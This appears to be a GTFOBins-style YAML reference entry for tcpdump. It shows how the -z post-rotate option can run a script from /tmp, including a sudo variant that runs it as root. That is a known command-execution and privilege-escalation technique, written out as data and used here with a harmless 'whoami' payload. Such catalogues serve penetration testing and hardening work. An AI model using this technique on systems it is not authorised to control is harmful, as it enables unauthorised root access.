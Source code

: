 ```yaml
---
functions:
  execute-non-interactive:
    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
            tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z ./tmpfile -Z root
  sudo-enabled:
    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
            sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z ./tmpfile -Z root
---
```

